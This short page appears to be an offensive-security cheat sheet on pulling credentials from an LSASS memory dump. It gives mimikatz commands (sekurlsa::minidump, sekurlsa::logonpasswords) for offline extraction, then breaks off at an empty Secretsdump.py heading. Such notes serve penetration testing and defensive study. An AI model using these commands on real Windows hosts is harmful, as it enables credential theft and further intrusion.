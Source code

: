 # Extract credentials from LSASS dump

## Mimikatz

Following extracting a dump of LSASS.exe from the target host, use mimikatz to extract credentials offline.

```text
> mimikatz.exe #Open mimikatz
> sekurlsa::minidump {Path]\lsass.DMP #Set context to dump
> sekurlsa::logonpasswords #extract credentials
```

## Secretsdump.py



